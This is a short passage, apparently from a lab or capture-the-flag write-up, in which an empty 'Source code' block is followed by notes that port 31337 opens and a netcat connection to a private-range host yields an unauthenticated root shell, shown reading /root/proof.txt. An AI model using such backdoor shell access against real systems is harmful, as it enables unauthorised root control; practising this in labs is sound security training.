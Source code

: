 ```python
```

* This will open a new port (31337)
* Upon attempting a banner grab, you can obtain a unstable reverse shell.

Unauthenticated Root Access:

```
nc -nv 192.168.238.42 31337

(UNKNOWN) [192.168.238.42] 31337 (?) open

whoami
root

cat /root/proof.txt
<hash_here>
```
